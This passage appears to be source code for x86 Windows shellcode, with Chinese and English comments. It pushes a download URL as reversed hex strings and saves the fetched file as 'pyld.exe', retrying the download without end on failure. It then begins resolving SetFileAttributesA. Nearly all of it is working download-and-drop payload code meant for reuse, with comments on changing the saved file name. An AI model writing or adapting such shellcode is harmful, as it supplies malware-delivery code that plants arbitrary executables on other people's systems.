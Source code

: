 ```
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP
0x2f455845  ; /EXE
0x5f515143  ; _QQC
0x502f5151  ; P/QQ
0x43502f62  ; CP/b
0x65777171  ; ewqq
0x2f6d6f63  ; /moc
0x2e71712e  ; .qq.
0x6e776f64  ; nwod
0x2f2f3a73  ; //:s
0x70747468  ; ptth
;-----------------------------------


push esp 
pop ecx ;https://down.qq.com/qqweb/PCQQ/PCQQ_EXE/PCQQ2020.exe

xor ebx,ebx
push ebx
;save as (no need change it.if U want to change it,do it)
push 0x6578652e
push 0x646c7970
;-------------------------------
push esp ;pyld.exe
pop ebx ;save as

xor edx,edx
push eax
push edx
push edx
push ebx
push ecx
push edx

call eax

;-------------------------

pop ecx
add esp,44
xor edx,edx
cmp eax,edx
push ecx
jnz download ;if it fails to download , retry contineusly
;------------------
pop edx
```
* 找到`SetFileAttributesA()`地址
```
;-----------------------
;Finding address of SetFileAttributesA()
xor edx,edx


push 0x42424173
mov [esp+2],byte dl
push 0x65747562
push 0x69727474
push 0x41656c69
push 0x46746553

```